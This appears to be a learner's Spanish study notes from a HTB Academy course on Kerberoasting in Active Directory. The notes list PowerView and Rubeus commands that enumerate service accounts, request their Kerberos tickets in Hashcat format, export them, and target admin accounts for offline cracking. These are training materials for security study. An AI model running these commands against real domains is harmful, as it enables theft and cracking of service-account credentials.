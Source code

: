 ## Kerberoasting - from Windows ( algunos conceptos clave)

Existe una manera manual de realizar este proceso pero la verdad no veo util aprender esto ya que tenemos tools como Rubeus que nos permite hacer esto autmatico. ( no por ahora). Desde PowerViewww:

```
Import-Module .\PowerView.ps1
# Obtener toda la lista de SPNs
Get-DomainUser * -spn | select samaccountname
```

![image](https://github.com/gecr07/HTB-Academy/assets/63270579/22d8c787-f0a6-465b-bddb-602ef299bdae)

Get especific tarjet

```
Get-DomainUser -Identity sqldev | Get-DomainSPNTicket -Format Hashcat
# Para guardarlos

Get-DomainUser * -SPN | Get-DomainSPNTicket -Format Hashcat | Export-Csv .\ilfreight_tgs.csv -NoTypeInformation

```

![image](https://github.com/gecr07/HTB-Academy/assets/63270579/53abe7b6-56b1-4105-b311-017761c363ad)

### Using Rubeus

Esta es una de las maneras mas faciles ya que automatiza el proceso. Esta herramienta tiene infinidad de opciones poco a poco espero aprender mas

```
Rubeus.exe kerberoast /stats

```
> Let's use Rubeus to request tickets for accounts with the admincount attribute set to 1. These would likely be high-value targets and worth our initial focus for offline cracking efforts with Hashcat. Be sure to specify the /nowrap flag so that the hash can be more easily copied down for offline cracking using Hashcat.

Listar las cuenta que pueden ser de administrador¿?

```
.\Rubeus.exe kerberoast /ldapfilter:'admincount=1' /nowrap
```

![image](https://github.com/gecr07/HTB-Academy/assets/63270579/140d07f5-63de-4c7a-8eb2-64a4ef32d333)



> Indica que un objeto determinado ha cambiado sus ACL a un valor más seguro por el sistema porque era miembro de uno de los grupos administrativos (directamente o transitivamente).

> Usemos Rubeus para solicitar tickets para cuentas con el admincountatributo establecido en 1. Estos probablemente serían objetivos de alto valor y valdrían la pena centrarnos inicialmente en los esfuerzos de craqueo fuera de línea con Hashcat. Asegúrese de especificar la /nowrapbandera para que el hash se pueda copiar más fácilmente para descifrarlo sin conexión usando Hashcat. Según la documentación, el indicador "/nowrap" evita que cualquier blob de ticket base64 se ajuste en columnas para cualquier función"; por lo tanto, no tendremos que preocuparnos por recortar espacios en blanco o nuevas líneas antes de descifrar con Hashcat.
